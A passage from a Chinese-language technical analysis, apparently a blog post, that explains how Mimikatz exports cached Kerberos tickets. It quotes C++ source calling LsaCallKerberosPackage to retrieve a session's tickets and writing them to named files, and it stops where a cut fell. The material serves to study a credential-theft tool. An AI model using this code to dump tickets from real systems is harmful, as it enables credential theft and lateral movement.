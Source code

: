 接着，通过调用 LsaCallKerberosPackage 函数发出查询请求，检索当前用户登录会话的所有缓存票证，如下所示。

```cpp
status = LsaCallKerberosPackage(pKerbRetrieveRequest, szData, (PVOID*)&pKerbRetrieveResponse, &szData, &packageStatus);
```

返回的票据将被保存到 KERB\_RETRIEVE\_TKT\_RESPONSE 结构体指针 pKerbRetrieveResponse 所指向的内存中。

如果一切顺利，则通过一系列过程将票据保存到文件，如下所示。

```cpp
if (NT_SUCCESS(status))
{
    if (NT_SUCCESS(packageStatus))
    {
        if (filename = kuhl_m_kerberos_generateFileName(i, &pKerbCacheResponse->Tickets[i], MIMIKATZ_KERBEROS_EXT))
        {
            if (kull_m_file_writeData(filename, pKerbRetrieveResponse->Ticket.EncodedTicket, pKerbRetrieveResponse->Ticket.EncodedTicketSize))
                kprintf(L"\n   * Saved to file     : %s", filename);
            else PRINT_ERROR_AUTO(L"kull_m_file_writeData");
                LocalFree(filename);
        }
        LsaFreeReturnBuffer(pKerbRetrieveResponse);
    }
    else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage / Package : %08x\n", packageStatus);
}
```

其中，kuhl\_m\_kerberos\_generateFileName 函数用于设置保存到的文件名，该函数通过指定的TicketFlags、ClientName、ServerName 和 ServerRealm 值为票据文件命名，其定义如下所示。

```c++
wchar_t* kuhl_m_kerberos_generateFileName(const DWORD index, PKERB_TICKET_CACHE_INFO_EX ticket, LPCWSTR ext)
{
    wchar_t* buffer;
    size_t charCount = 0x1000;

    if (buffer = (wchar_t*)LocalAlloc(LPTR, charCount * sizeof(wchar_t)))
    {
        if (swprintf_s(buffer, charCount, L"%u-%08x-%wZ@%wZ-%wZ.%s", index, ticket->TicketFlags, &ticket->ClientName, &ticket->ServerName, &ticket->ServerRealm, ext) > 0)
            kull_m_file_cleanFilename(buffer);
        else
            buffer = (wchar_t*)LocalFree(buffer);
    }
    return buffer;
}
```

最后调用 kull\_m\_file\_writeData 函数，该函数定义如下。
